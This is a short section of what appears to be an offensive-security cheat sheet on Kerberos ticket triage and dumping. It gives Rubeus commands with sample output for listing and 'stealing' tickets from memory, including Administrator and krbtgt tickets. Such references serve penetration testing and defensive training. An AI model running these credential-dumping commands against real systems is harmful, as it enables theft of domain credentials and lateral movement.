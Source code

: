 
## 4. Ticket Triage & Dumping

### Triage (View Tickets)

**When:** Want to see what tickets are in memory (your session)

```powershell
# View current user's tickets
Rubeus.exe triage

# Output:
# ----------------------------------------
#  | LUID    | UserName                 | Service                              | EndTime              |
# ----------------------------------------
#  | 0x3e7   | Administrator@CORP.LOCAL | krbtgt/CORP.LOCAL                    | 10/25/2025 4:38:10 AM|
#  | 0x3e7   | Administrator@CORP.LOCAL | cifs/DC01.corp.local                 | 10/25/2025 4:38:10 AM|
# ----------------------------------------
```

---

### Dump Tickets

**When:** Want to steal tickets from memory (requires admin)

```powershell
# Dump all tickets (requires elevation)
Rubeus.exe dump

# Dump specific LUID
Rubeus.exe dump /luid:0x3e7

# Dump to files
Rubeus.exe dump /outfile:tickets

# Output: Multiple .kirbi files saved
```

---

### Dump Specific User's Tickets

```powershell
# Dump tickets for specific user
Rubeus.exe dump /user:administrator

# Dump service tickets only
Rubeus.exe dump /service:krbtgt
```

---